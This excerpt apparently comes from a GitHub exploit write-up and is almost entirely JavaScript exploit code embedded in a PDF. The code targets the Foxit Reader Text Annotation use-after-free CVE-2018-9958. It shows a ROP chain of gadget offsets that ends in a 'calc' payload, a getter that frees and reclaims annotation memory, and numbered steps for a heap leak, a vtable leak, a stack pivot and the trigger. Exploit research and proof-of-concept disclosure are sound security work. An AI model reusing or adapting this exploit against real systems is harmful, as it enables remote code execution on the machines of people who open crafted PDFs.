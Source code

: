 ```JavaScript
        rop[0x08] = foxit_base + 0x00049d4e; // xchg esi,eax; ret
        rop[0x09] = foxit_base + 0x00025cd6; // pop edi; ret
        rop[0x0a] = foxit_base + 0x0041c6ca; // ret
        rop[0x0b] = foxit_base + 0x000254fc; // pushad; ret
        rop[0x0c] = 0x636c6163;              // calc
        rop[0x0d] = 0x00000000;              // adios, amigo

        for (var j = 0x0e; j < rop.length; j++) {
            rop[j] = 0x71727374;
        }
    }
}

function trigger_uaf(){
    /*
        Foxit Reader Text Annotations point Use-After-Free Remote Code Execution Vulnerability
        ZDI-CAN-5620 / ZDI-18-342 / CVE-2018-9958
        Found By: Steven Seeley (mr_me) of Source Incite
    */

    var that = this;
    var a = this.addAnnot({type:"Text", page: 0, name:"uaf"});
    var arr = [1];
    Object.defineProperties(arr,{
        "0":{ 
            get: function () {

                // free
                that.getAnnot(0, "uaf").destroy();

                // reclaim freed memory
                reclaim();
                return 1; 
            }
        }
    });
    a.point = arr;
}

// 1. Leak a heap chunk of size 0x40
leak_heap_chunk();

// 2. Leak vtable and calculate the base of Foxit Reader
leak_vtable();

// 3. Then fill the memory region from step 1 with a stack pivot
control_memory();

// 4. Trigger the uaf, reclaim the memory, pivot to rop and win
trigger_uaf();

)>> trailer <</Root 1 0 R>>
```


[docker]: https://www.docker.com/docker-windows
[ysoserial.net]: https://github.com/pwntester/ysoserial.net
[@tiraniddo's]: https://twitter.com/tiraniddo